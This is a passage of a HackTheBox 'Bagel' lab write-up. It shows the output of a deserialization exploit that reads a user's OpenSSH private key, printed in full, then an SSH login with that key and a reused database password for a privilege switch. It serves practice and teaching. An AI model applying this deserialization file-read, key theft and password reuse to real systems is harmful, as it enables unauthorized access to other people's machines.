 I tried developer first but it didn't work, so I tried the other use I saw. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Bagel]
└──╼ $python3 order.py 
{'UserId': 0, 'Session': 'Unauthorized', 'Time': '5:10:47', 'RemoveOrder': {'$type': 'bagel_server.File, bagel', 'ReadFile': '-----BEGIN OPENSSH PRIVATE KEY-----\n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\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----', 'WriteFile': None}, 'WriteOrder': None, 'ReadOrder': None}
```

I toss that into a file and use <code>sed -i -- 's/\\n/\n/g' id_rsa</code> to reformat it. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Bagel]
└──╼ $ssh phil@bagel.htb -i id_rsa 
Last login: Tue Feb 14 11:47:33 2023 from 10.10.14.19
[phil@bagel ~]$ cat user.txt
a6a7c499ef895-------------------
```

<h1>User as developer</h1>



The text I found earlier in a config file from the bagel dotnet file <code>string text = "Data Source=ip;Initial Catalog=Orders;User ID=dev;Password=k8wdAYYKyhnjg3K";</code> can be used to get to developer

```bash
[phil@bagel ~]$ su developer
Password: 
[developer@bagel phil]$ 
```

